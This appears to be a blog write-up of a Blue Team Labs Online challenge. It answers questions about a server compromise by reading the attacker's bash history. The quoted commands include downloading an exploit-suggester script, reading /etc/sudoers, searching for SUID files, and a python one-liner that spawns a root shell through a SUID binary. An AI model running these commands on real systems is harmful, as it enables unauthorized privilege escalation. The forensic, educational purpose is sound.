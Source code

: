 ```yaml
---
layout: post
title: Log Analysis - Privilege Escalation
date: '2023-10-06 11:11:46 +0300'
cover: /img/cover_images/14.png
description: "The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?"
categories: [BTLO, CTF-Like]
tags: [Texteditor, Bash History]
---
```


## Log Analysis - Privilege Escalation
A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened? 

## What user (other than ‘root’) is present on the server?

Let's open the files of bash_history

```bash
cd /home
ls
cd /home/daniel/
ls -la
su root
```

## What script did the attacker try to download to the server? 

We can see the script from bash_history
```bash
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
```

## What packet analyzer tool did the attacker try to use?

We can see the packet analyzer from bash_history
```bash
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
```

## What file extension did the attacker use to bypass the file upload filter implemented by the developer?

We can see the file extension from bash_history
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

## Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

Based on the bash history we can see the attacker was searching for [SUID](https://gtfobins.github.io/) binaries and he was able to locate /bin/sh which he exploited with python
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```